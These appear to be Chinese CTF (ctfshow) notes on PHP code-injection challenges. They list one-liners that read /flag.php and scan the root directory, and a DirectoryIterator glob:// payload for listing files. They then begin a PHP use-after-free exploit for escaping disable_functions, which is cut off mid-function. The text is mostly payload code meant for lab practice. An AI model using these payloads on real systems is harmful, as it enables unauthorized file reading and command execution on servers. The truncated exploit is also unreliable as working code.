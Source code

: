 # 60 PHP 方法绕过

print_r(scandir(“/”));

show_source(‘/flag.php’);

include(‘/flag.php’);

highlight_file(‘flag.php’);

# 72 代码payload

查找文件：

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>
```

DirectoryIterator：文件夹迭代器

glob:// 查找指定路径下的文件

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
```

[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"